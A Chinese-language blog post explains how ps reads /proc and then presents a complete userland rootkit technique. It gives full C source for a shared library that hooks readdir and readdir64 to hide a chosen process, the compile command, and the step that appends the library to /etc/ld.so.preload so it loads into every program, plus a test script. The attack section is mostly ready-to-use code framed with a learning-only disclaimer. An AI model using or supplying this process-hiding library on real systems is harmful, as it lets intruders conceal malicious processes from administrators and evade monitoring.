 ```yaml
---
title: 通过 ld.so.preload 覆盖系统库，隐藏 Linux 进程
date: 2019-05-19 23:50:00
categories: Programming
tags:
- Linux
- Hack
---
```


> 本文旨在学习 linux 内核原理，纯粹用于技术探讨，请勿用于非法目的。

## `ps`指令是如何工作的？

我们可以使用 `sysdig` 跟踪 `ps` 指令的执行细节

```bash
$ sysdig proc.name = ps
...
2088196 23:47:45.419817127 7 ps (22956) > openat
2088197 23:47:45.419818054 7 ps (22956) < openat fd=6(<f>/proc/30245/stat) dirfd=-100(AT_FDCWD) name=/proc/30245/stat flags=1(O_RDONLY) mode=0
2088198 23:47:45.419818411 7 ps (22956) > read fd=6(<f>/proc/30245/stat) size=2048
2088199 23:47:45.419819843 7 ps (22956) < read res=182 data=30245 ((sd-pam)) S 30244 30244 30244 0 -1 1077936448 46 0 0 0 0 0 0 0 20 0 1 0 1
2088200 23:47:45.419820050 7 ps (22956) > close fd=6(<f>/proc/30245/stat)
2088201 23:47:45.419820178 7 ps (22956) < close res=0
2088202 23:47:45.419822308 7 ps (22956) > openat
2088203 23:47:45.419824137 7 ps (22956) < openat fd=6(<f>/proc/30245/status) dirfd=-100(AT_FDCWD) name=/proc/30245/status flags=1(O_RDONLY) mode=0
2088204 23:47:45.419824495 7 ps (22956) > read fd=6(<f>/proc/30245/status) size=2048
2088205 23:47:45.419829683 7 ps (22956) < read res=1329 data=Name:.(sd-pam).Umask:.0002.State:.S (sleeping).Tgid:.30245.Ngid:.0.Pid:.30245.PP
2088206 23:47:45.419829879 7 ps (22956) > close fd=6(<f>/proc/30245/status)
2088207 23:47:45.419830002 7 ps (22956) < close res=0
2088208 23:47:45.419831829 7 ps (22956) > getdents fd=5(<d>/proc)
2088209 23:47:45.419833030 7 ps (22956) < getdents res=0
2088210 23:47:45.419834153 7 ps (22956) > close fd=5(<d>/proc)
2088211 23:47:45.419834873 7 ps (22956) < close res=0
...
```

由此可以分析出 `ps` 的执行流程如下：
1. 通过 `openat` 函数打开目录 `/proc`。
2. 在该进程在打开的目录上调用 `getdents` 函数，得到 `/proc` 下的目录列表
3. 遍历每个子目录中的一组固定文件。从事件列表中可以看到，这些文件名为 `/proc/{PID}/status`，`/proc/PID/stat` 和 `/proc/PID/cmdline`，即为 `ps` 输出的信息。

> 进程本身不直接调用 `openat` 和 `getdents`， 因为这些是由C标准库（`libc`）抽象的系统调用。如果你曾经读过 `libc` 文档，`libc` 提供了两个不同的函数，`opendir` 和 `readdir`，它们负责自己调用系统调用，为开发人员提供了一个更简单的API。

## 3种隐藏进程的思路

1. 修改替换类似 `ps`、`lsof`、`top`、`htop` ... 等常用运维工具的二进制文件。
2. 覆盖 `libc` 中的 `readdir` 函数
3. 修改内核中的系统调用，hook 系统的 `getdents` 事件

下文采用第二种方法来实现

## 示例代码 (C)

### 新建 `processhider.c`

修改 `process_to_filter` 为你要隐藏的进程名

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <unistd.h>

// !!! Replace to your Process Name
static const char* process_to_filter = "test.py";

static int get_dir_name(DIR* dirp, char* buf, size_t size)
{
    int fd = dirfd(dirp);
    if(fd == -1) {
        return 0;
    }

    char tmp[64];
    snprintf(tmp, sizeof(tmp), "/proc/self/fd/%d", fd);
    ssize_t ret = readlink(tmp, buf, size);
    if(ret == -1) {
        return 0;
    }

    buf[ret] = 0;
    return 1;
}

static int get_process_name(char* pid, char* buf)
{
    if(strspn(pid, "0123456789") != strlen(pid)) {
        return 0;
    }

    char tmp[256];
    snprintf(tmp, sizeof(tmp), "/proc/%s/stat", pid);

    FILE* f = fopen(tmp, "r");
    if(f == NULL) {
        return 0;
    }

    if(fgets(tmp, sizeof(tmp), f) == NULL) {
        fclose(f);
        return 0;
    }

    fclose(f);

    int unused;
    sscanf(tmp, "%d (%[^)]s", &unused, buf);
    return 1;
}

#define DECLARE_READDIR(dirent, readdir)                                \
static struct dirent* (*original_##readdir)(DIR*) = NULL;               \
                                                                        \
struct dirent* readdir(DIR *dirp)                                       \
{                                                                       \
    if(original_##readdir == NULL) {                                    \
        original_##readdir = dlsym(RTLD_NEXT, #readdir);                \
        if(original_##readdir == NULL)                                  \
        {                                                               \
            fprintf(stderr, "Error in dlsym: %s\n", dlerror());         \
        }                                                               \
    }                                                                   \
                                                                        \
    struct dirent* dir;                                                 \
                                                                        \
    while(1)                                                            \
    {                                                                   \
        dir = original_##readdir(dirp);                                 \
        if(dir) {                                                       \
            char dir_name[256];                                         \
            char process_name[256];                                     \
            if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &&        \
                strcmp(dir_name, "/proc") == 0 &&                       \
                get_process_name(dir->d_name, process_name) &&          \
                strcmp(process_name, process_to_filter) == 0) {         \
                continue;                                               \
            }                                                           \
        }                                                               \
        break;                                                          \
    }                                                                   \
    return dir;                                                         \
}

DECLARE_READDIR(dirent64, readdir64);
DECLARE_READDIR(dirent, readdir);
```

### 编译成动态链接库

```bash
$ gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ mv libprocesshider.so /usr/local/lib/
```

### 覆盖系统调用

`/etc/ld.so.preload` 这是个神奇的文件，写在这个文件里的库会比系统标准库优先调用。因此我们只要把刚才生成好的动态链接库添加到这个文件中就大功告成了

```bash
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

### 测试结果

新建一个测试文件 `test.py`

```python
#!/usr/bin/python

while True:
    print "Hello"
```

执行

```bash
$ chmod +x test.py
$ ./test.py
```

再开一个 `terminal` 查看 `ps` 或者 `top`，发现 `test.py` 已经不见了。
